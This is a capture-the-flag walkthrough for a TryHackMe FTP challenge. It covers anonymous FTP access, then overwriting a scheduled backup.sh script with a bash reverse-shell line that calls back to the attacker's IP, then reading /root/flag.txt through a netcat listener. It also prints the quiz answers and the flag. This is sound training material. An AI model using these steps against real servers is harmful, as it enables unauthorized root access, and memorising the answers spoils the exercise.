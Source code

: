 ```yaml
---
description: Networking - FTP
---
```


# Anyone can be Santa!

## Video

{% embed url="https://www.youtube.com/watch?v=i-jqFYTPEV4" %}

## Resources

The standard for these two connections are the two ports:

* Port 20 \(Data\)
* Port 21 \(Commands\)

[pentesters cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

`bash -i >& /dev/tcp/Your_TryHackMe_IP/4444 0>&1`

## Challenge

### Name the directory on the FTP server that has data accessible by the "anonymous" user

```text
ftp 10.10.130.142
anonymous
ls
```

![](../.gitbook/assets/image%20%2871%29.png)

{% hint style="success" %}
public
{% endhint %}

### What script gets executed within this directory?

```text
ftp 10.10.130.142
anonymous
ls
cd public
ls
```

![](../.gitbook/assets/image%20%2865%29.png)

{% hint style="success" %}
backup.sh
{% endhint %}

### What movie did Santa have on his Christmas shopping list?

```text
ftp 10.10.130.142
anonymous
cd public
get shoppinglist.txt
quit
cat shoppinglist.txt
```

![](../.gitbook/assets/image%20%289%29.png)

{% hint style="success" %}
The Polar Express
{% endhint %}

### Re-upload this script to contain malicious data \(just like we did in section **9.6**. Output the contents of /root/flag.txt!

Note that the script that we have uploaded may take a minute to return a connection. If it doesn't after a couple of minutes, double-check that you have set up a Netcat listener on the device that you are working from, and have provided the TryHackMe IP of the device that you are connecting from.

```text
ftp 10.10.130.142
anonymous
cd public
get backup.sh
```

![](../.gitbook/assets/image%20%2861%29.png)

```text
vi backup.sh

bash -i >& /dev/tcp/10.14.4.204/4444 0>&1
```

![](../.gitbook/assets/image%20%2818%29.png)

```text
put backup.sh
```

![](../.gitbook/assets/image%20%286%29.png)

```text
nc -lnp 4444
cd /root
cat flag.txt
```

![](../.gitbook/assets/image%20%287%29.png)

{% hint style="success" %}
THM{even\_you\_can\_be\_santa}
{% endhint %}

